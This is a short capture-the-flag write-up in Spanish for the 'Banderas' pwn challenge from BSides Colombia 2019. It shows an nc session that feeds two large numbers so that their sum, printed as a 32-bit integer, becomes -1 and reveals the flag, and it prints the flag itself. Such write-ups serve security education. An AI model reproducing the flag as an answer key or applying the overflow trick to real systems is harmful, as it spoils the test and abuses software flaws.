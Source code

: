 # __BSides Colombia 2019__
## _Banderas_

 ## Información 
**Categoría:** | **Writeup Author**
--- | ---
Pwn | Huascar Tejeda <<htejeda@f2tc.com>>

**Descripción:**

> En el evento me dijeron que podía tener tantas banderas como quisiera, tantas que ni sería capaz de contarlas.
> retos.bsides.ctf.co:31334
>
> [chall](flags)

**Bandera:**

> BSidesCo{p3rd1_L4_CU3Nta_:(}

## Solución

El programa pide dos números y el resultado de la suma de ambos debe ser igual a -1. Para causar el Integer Overflow de **long long** utilizamos **(2^32) + (2^32) - 1**:

```
❯❯❯ nc retos.bsides.ctf.co 31334
Larga Larga Bandera(%lld) + Larga Larga Bandera = Cuantas Banderas?(%d)
Yo quiero -1 bandera ;)

Cuantas banderas?
4294967296

Cuantas banderas mas?
4294967295

Banderas + Banderas = -1. Banderas para la eternidad!
BSidesCo{p3rd1_L4_CU3Nta_:(}
```